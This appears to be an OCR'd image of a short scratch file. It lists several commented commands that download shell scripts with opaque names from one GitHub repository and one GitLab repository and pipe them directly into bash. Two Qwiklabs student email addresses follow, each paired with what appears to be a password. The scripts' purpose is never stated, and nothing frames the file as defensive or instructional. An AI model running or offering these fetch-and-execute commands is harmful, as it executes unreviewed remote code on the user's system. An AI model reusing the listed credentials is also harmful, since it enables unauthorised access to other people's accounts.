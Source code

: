 # curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/anod.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/ye.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/nis.sh/nis.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/aaa.sh" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/yeni.sh" | bash
# curl -sSL "https://gitlab.com/jasa4/jasa/-/raw/main/kilan" | bash
# curl -sSL "https://github.com/barburonjilo/open/raw/refs/heads/main/kilan" | bash

# student-04-871e8e0fd1ff@qwiklabs.net Fb4zyO6KDdPc
# student-01-8ff4f028ff4b@qwiklabs.net Uub1lN7wxx09
